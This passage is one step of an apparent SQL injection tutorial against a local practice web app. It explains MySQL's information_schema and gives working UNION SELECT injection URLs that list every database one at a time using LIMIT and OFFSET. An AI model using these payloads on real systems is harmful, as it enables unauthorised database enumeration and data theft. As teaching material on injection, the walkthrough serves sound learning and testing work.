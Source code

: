 # (d) Get all databases

The plan here is to **list all databases** in the database server.

So MySQL store information about all databases in a special database called [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html).
To get the name of all databases we have to query the table **SCHEMATA** of that database.

The query may look like this:
```shell
SELECT schema_name FROM information_schema.schemata
```

We can inject that query via browser, just like in the previous steps:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata),3,4,5,6,7,8,9,10/slug-name-post'
```

But we will get this error:
```javascript
{
  "status": "Error",
  "message": "ER_SUBQUERY_NO_1_ROW: Subquery returns more than 1 row"
}
```

This is because the query returns more than one row. So we have to *limit* the output, listing the databases **one by one**, like this:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata LIMIT 1),3,4,5,6,7,8,9,10/slug-name-post'
```

So now we have the first database. For the next one we can use the OFFSET trick, like this:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 1),3,4,5,6,7,8,9,10/slug-name-post'
```

With this OFFSET trick we are skipping the first database and getting the second one. Then we skip another one to get the next one:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 2),3,4,5,6,7,8,9,10/slug-name-post'
```

We keep skipping until getting all the databases.

And that is it!! Mission accomplished!

